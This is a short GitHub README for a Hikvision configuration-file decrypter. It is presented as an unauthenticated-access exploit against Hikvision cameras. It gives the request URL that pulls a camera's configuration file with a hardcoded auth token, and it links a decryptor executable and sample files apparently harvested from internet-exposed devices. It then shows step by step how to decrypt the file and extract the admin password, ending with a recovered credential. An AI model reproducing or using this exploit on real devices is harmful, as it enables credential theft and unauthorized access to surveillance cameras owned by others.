

# Hikvision-BinConfigurationFiles-decrypter

- [About Link](https://about.sentrylab.cn/help/Hikvision-BinConfigurationFiles-decrypter/)

<h4><li>下载账号密码配置文件 <code>http://{ip.addr:ip.port}/System/configurationFile?auth=YWRtaW46MTEK</code></li></h4>

```bash
➜  file configurationFile
configurationFile: PGP Secret Key -
```

|Desc | Link |
| :----: | :----: |
---- | --- 
Download Hikvision exec |  [<i class="fa fa-link"></i> hikvision-decrypter.exe](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/hikvision-decrypter.exe) and here is: [<i class="fa fa-github"></i> Repos](https://github.com/WormChickenWizard/hikvision-decrypter)
Download configurationFile Sample | [<i class="fa fa-link"></i> configurationFile](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/configurationFile-fofa)
Download configurationFile decry-Sample	| [<i class="fa fa-link"></i> configurationFile-decry](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/DE-configurationFile-fofa)

##### # Usage:
Open hikvision-decrypter.exe on Windows platform

`Open Configuration File -> Encrypted -> Decrypt Data(Decrypting AES...) -> (Successfully decrypted data) -> Save Configuration File`

##### # Find pass in decrypted data

Open decrypted data with 010 Editor then find admin string 

**Boom! Easy (admin:asdf1234):**


